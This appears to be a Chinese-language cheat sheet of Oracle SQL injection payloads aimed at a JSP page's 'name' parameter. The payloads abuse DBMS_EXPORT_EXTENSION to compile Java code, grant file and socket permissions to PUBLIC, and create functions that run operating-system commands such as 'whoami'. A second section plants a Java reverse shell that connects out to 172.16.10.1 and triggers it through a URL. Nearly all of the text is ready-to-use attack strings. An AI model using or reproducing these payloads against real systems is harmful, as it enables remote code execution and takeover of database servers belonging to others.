 `命令执行`

    创建JAVA代码
    /oracle.jsp?name=' and (select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "Command" as import java.io.*;public class Command{public static String exec(String cmd) throws Exception{String sb="";BufferedInputStream in = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());BufferedReader inBr = new BufferedReader(new InputStreamReader(in));String lineStr;while ((lineStr = inBr.readLine()) != null)sb+=lineStr+"\n";inBr.close();in.close();return sb;}}'''';END;'';END;--','SYS',0,'1',0) from dual) is not null
    赋予JAVA执行权限
    /oracle.jsp?name=' and (select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''', ''''''''<<ALL FILES>>'''''''', ''''''''execute'''''''' );end;'''';END;'';END;--','SYS',0,'1',0) from dual) is not null--
    创建函数
    /oracle.jsp?name=' and (select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function cmd(p_cmd in varchar2) return varchar2 as language java name ''''''''Command.exec(java.lang.String) return String''''''''; '''';END;'';END;--','SYS',0,'1',0) from dual) is not null--
    赋予函数执行权限
    /oracle.jsp?name=' and (select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on cmd to public'''';END;'';END;--','SYS',0,'1',0) from dual) is not null--
    执行命令
    /oracle.jsp?name=' and (select sys.cmd('cmd.exe /c whoami') from dual) is not null--
    
    
`反弹Shell`
        
        创建JAVA代码
        /oracle.jsp?name=' and (select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "shell" as import java.io.*;import java.net.*;public class shell{public static void run() throws Exception {Socket s = new Socket("172.16.10.1", 80);Process p = Runtime.getRuntime().exec("cmd.exe");new T(p.getInputStream(), s.getOutputStream()).start();new T(p.getErrorStream(), s.getOutputStream()).start();new T(s.getInputStream(), p.getOutputStream()).start();}static class T extends Thread {private InputStream i;private OutputStream u;public T(InputStream in, OutputStream out) {this.u = out;this.i = in;}public void run() {BufferedReader n = new BufferedReader(new InputStreamReader(i));BufferedWriter w = new BufferedWriter(new OutputStreamWriter(u));char f[] = new char[8192];int l;try {while ((l = n.read(f, 0, f.length)) > 0) {w.write(f, 0, l);w.flush();}} catch (IOException e) {}try {if (n != null)n.close();if (w != null)w.close();} catch (Exception e) {}}}}'''';END;'';END;--','SYS',0,'1',0) from dual) is not null--
       赋予JAVA执行权限
       /oracle.jsp?name=' and (select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.net.SocketPermission'''''''', ''''''''<>'''''''', ''''''''*'''''''' );end;'''';END;'';END;--','SYS',0,'1',0) from dual) is not null--
       创建函数
       /oracle.jsp?name=' and (select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function reversetcp RETURN VARCHAR2 as language java name ''''''''shell.run() return String''''''''; '''';END;'';END;--','SYS',0,'1',0) from dual) is not null--
       赋予函数执行权限
       /oracle.jsp?name=' and (select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on reversetcp to public'''';END;'';END;--','SYS',0,'1',0) from dual) is not null--
       反弹SHELL  	
        http://www.iswin.org/oracle.jsp?name=' and (select sys.reversetcp from dual) is not null--






